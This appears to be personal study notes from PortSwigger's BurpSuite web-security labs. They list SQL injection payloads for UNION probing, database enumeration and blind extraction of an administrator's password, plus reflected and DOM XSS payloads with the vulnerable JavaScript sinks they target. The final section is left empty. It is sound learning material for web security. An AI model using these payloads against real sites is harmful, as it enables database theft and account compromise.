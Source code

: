 ```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

```

# Cross-site scripting

#### Reflected XSS
- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

#### DOM XSS
- "View source" option won't work for DOM XSS testing 


document.write
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	trackSearch(query);
}
```
- ``` "><svg onload=alert(1)> ```


innerHTML
```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}

```
- ``` <img src=1 onerror=alert(1)> ```


href attribute
```javascript

```
- ```  ```

